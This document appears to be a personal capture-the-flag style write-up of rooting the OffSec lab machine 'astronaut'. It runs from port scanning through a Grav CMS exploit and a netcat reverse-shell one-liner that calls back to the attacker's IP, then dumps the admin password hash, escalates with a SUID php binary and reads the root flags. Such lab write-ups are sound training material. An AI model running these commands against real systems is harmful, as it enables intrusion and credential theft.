**Start 14:01 13-09-2024**

---
```
192.168.203.12
```
## Recon

### Nmap
During my initial scan I found out only `22` and `80` were open, so I did a more detailed scan of these 2 ports:

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV -sT -vvvv -T5 -p22,80 192.168.203.12

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 98:4e:5d:e1:e6:97:29:6f:d9:e0:d4:82:a8:f6:4f:3f (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCmPOfERLKCxx+ufQz7eRTNuEEkJ+GX/hKPNPpCWlTiTgegmjYoXQ7MA5ibTRoJ6vxpPEggzNszJKbBrSVAbRuT2sBg4o7ywiGUy7vsDBpObMrBMsdKuue3gpkaNF8DL2pB3v/XAxtavq1Mh4vz4yj99cc2pX1GhSjpQTWlsK8Rl9DmBKp7t0XxEWwq3juQ9JiN5yAttMrbTDjwMNxcipsYv0pMudDBE6g4gQyiZGwuUfBn+HirxnfRr7KkxmBaEpZgukXSJ7fXYgpQVgNP2cvd2sy/PYe0kL7lOfYwG/DSLWV917RPIdsPPQYr+rqrBL7XQA2Qll30Ms9iAX1m9S6pT/vkaw6JQCgDwFSwPXrknf627jCS7vQ8mh8UL07nPO7Hkko3fnHIcxyJggi/BoAAi3GseOl7vCZl28+waWlNdbR8gaiZhDR1rLvimcm3pg3nv9m+0qfVRIs9fxq97cOEFeXhaGHXvQL6LYGK14ZG+jVXtPavID6txymiBOUsj8M=
|   256 57:23:57:1f:fd:77:06:be:25:66:61:14:6d:ae:5e:98 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBAweAzke7+zPt3Untb06RlI4MEp+vsEJICUG+0GgPMp+vxOdxEhcsVY0VGyuC+plTRlqNi0zNv1Y0Jj0BYRMSUw=
|   256 c7:9b:aa:d5:a6:33:35:91:34:1e:ef:cf:61:a8:30:1c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPJP5z2Scxa02tfhI1SClflg5QtVdhMImHwY7GugVtfY
80/tcp open  http    syn-ack Apache httpd 2.4.41
|_http-title: Index of /
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2021-03-17 17:46  grav-admin/
|_
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: Host: 127.0.0.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I went ahead and added the host under `astronaut.offsec` to my `/etc/hosts` file.

### Nessus
I also decided to boot up `Nessus` to try it out and see what sort of vulnerabilities I could find compared to `nmap`. These were the results:



As well as 



It appears to contain two types of vulnerabilities:






### Gobuster
Since I am dealing with browsable directories I booted up `gobuster` in order to check out what we're dealing with:

```bash
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://192.168.203.12/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.203.12/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/server-status        (Status: 403) [Size: 279]
Progress: 220559 / 220560 (100.00%)
===============================================================
Finished
===============================================================
```

That was no help at all, so let's check out port `80`.


## 80/TCP - HTTP

Funnily enough when I head into the website I receive this screen:



The site itself was not of much use, but I was able to find an exploit for the `Grav` CMS running on the site.



I downloaded the script and checked if I had to modify anything, but it appears to be ready to execute right away, so I ran the exploit and waited for the output:



I got no response, which means it either failed (which it shouldn't since it says completed), or it's actually a `blind` exploit. 

Using [revshells.com](https://www.revshells.com/) I made a `Bind` shell which I would upload as a command and hope that the exploit goes through:



I update the payload and start a listener:

```bash
# Netcat listener
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 1234                                    
listening on [any] 1234 ...

# Uploading Bind shell
┌──(kali㉿kali)-[~/Downloads]
└─$ python3 exploit.py -t http://astronaut.offsec/grav-admin -c 'rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 192.168.45.161 1234 > /tmp/f'
```

After some time has passed I get the `Bind` shell:



As always first thing I do is stabilize the shell:

```bash
$ script /dev/null -c bash
Script started, file is /dev/null
www-data@gravity:~/html/grav-admin$ 
```

And now I can get to work. After some digging around I landed on the following file:



I noticed some juicy creds:

```bash
admin
$2y$10$dlTNg17RfN4pkRctRm1m2u8cfTHHz7Im.m61AYB9UtLGL2PhlJwe.
```

```bash
admin:$2y$10$dlTNg17RfN4pkRctRm1m2u8cfTHHz7Im.m61AYB9UtLGL2PhlJwe.:IJQxNdg2BPKhvp
```


It appears to be a `bcrypt` hash so I threw `John` on it and went to explore the target further in the meantime.

After a while I checked up on `John` and found it had made no progress so I called it off:




## Privilege Escalation

In order to escalate my privileges I went ahead and checked for `SUID` bit sets and found the following:



One that clearly stood out right away was `/usr/bin/php7.4`. I went to [gtfobins](https://gtfobins.github.io/gtfobins/php/?source=post_page-----627bc41a86ef--------------------------------) to find the correct command to break out of the restricted shell.



I had to issue the following command:

```bash
/usr/bin/php7.4 -r "pcntl_exec('/bin/sh', ['-p']);"
```



Once that was done I could go ahead and get the flags.

```bash
# cd root
cd root
# ls -l
ls -l
total 12
-rw------- 1 root root    9 Apr  3  2023 flag1.txt
-rwx------ 1 root root   33 Sep 13 12:01 proof.txt
drwx------ 3 root root 4096 Jan 24  2023 snap
# cat flag1.txt && cat proof.txt
cat flag1.txt && cat proof.txt
T2Zmc2Vj
442f086310877889d84b49a2590a2510
```

Apparently the `flag1.txt` was a false positive.

---

**Finished 15:42 13-09-2024**

[^Links]: [[OSCP Prep]] 